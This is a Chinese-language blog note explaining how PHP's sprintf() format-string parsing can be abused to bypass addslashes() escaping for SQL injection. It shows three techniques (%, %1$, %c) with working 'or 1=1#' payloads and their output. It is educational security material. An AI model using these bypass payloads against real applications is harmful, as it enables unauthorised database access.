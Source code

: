 ```yaml
---
layout: post
title: sprintf()格式化字符串注入
data: 2019-11-23
categories: Notes
tags: 
 - Injection
description:
---
```


# sprintf()函数

和其它语言的格式化字符串函数类似，sprintf()的语法为：

```
sprintf ( string $format [, mixed $... ] ) : string
```

例如：

```php
<?php
    echo sprintf("select * from user where username='%s'\n", "admin");
?>
```

运行结果：

````
select * from user where username=admin
````

# 漏洞原理

在PHP的底层代码中，会对`$format`中`%`符号后的第一个字符做一个switch判断，以实现格式化输入功能。但这个判断仅15个case，换言之在`%`符号之后且超出了判断范围的字符都会被“吃掉”。

这样的话，如果我们上传的Payload被addslashes()处理过，就可以利用这个特性使被转义的字符逃逸。

# 利用方式

## 使用%

直接在危险字符前加入`%`即可。

不过需要主要的是如果当前字符串中`%`符号的数目大于sprintf()函数实际提供的参数，就会引起报错：

```php
<?php
    echo sprintf("select * from user where username='admin%\' or 1=1#' and password='%s'\n" , "pass");
?>
```

运行结果：

```
PHP Warning:  sprintf(): Too few arguments in /home/glyuan/foo.php on line 2
```

## 使用%1$

在占位符中，`%n$s`可以选择特定位置的参数：

```php
<?php
    echo sprintf("select * from user where username='%2\$s' and password='%1\$s'\n", "pass", "admin");
?>
```

运行结果：

```
select * from user where username='admin' and password='pass'
```

所以用`%1$`代替`%`可以规避之前的报错：

```php
<?php
    echo sprintf("select * from user where username='admin%1\$\' or 1=1#' and password='%s'\n" , "pass");
?>
```

运行结果：

```
select * from user where username='admin' Or 1=1#' and password='pass'
```

## 使用%c

`%c`是单个字符的占位符，接受一个整数，并根据ASCII码转化为字符，可以利用这个特性传入单引号等危险字符，以绕过过滤：

```php
<?php
    $username = "admin%1\$c or 1=1#";
	$password = "39";
	$sql = "select * from user where username='$username' and password='%s'\n";
	echo sprintf($sql, $password);
?>
```

运行结果：

```
select * from user where username='admin' or 1=1#' and password='39'
```

